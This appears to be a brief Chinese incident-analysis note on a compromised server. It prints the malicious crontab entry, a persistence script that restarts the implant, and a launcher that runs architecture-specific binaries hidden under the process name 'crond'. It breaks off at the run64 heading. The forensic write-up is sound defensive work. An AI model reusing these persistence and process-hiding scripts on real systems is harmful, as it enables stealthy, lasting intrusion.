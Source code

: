 
# 从101服务器进入

> 如何进入的无从得知

# 先查看crontab定时任务

```bash
* * * * * /nas/users/mongodb/.ecs-92d9/update >/dev/null 2>&1
```
# 查看脚本

>  ~/.ecs-92d9/update   定时任务

```
#!/bin/sh
if test -r /nas/users/mongodb/.ecs-92d9/mech.pid; then
pid=$(cat /nas/users/mongodb/.ecs-92d9/mech.pid)
if $(kill -CHLD $pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd /nas/users/mongodb/.ecs-92d9
./run &>/dev/null
```

-  判断`.ecs-92d9/mech.pid`是否存在
- 是：清除pid任务，并退出
- 否：执行`run`脚本

>  ~/.ecs-92d9/run  判断架构

```shell
#!/bin/bash

ARCH=`uname -m`
HIDE="crond"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./run32
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./run64
fi

```

> ~/.ecs-92d9/run64   实际定时任务

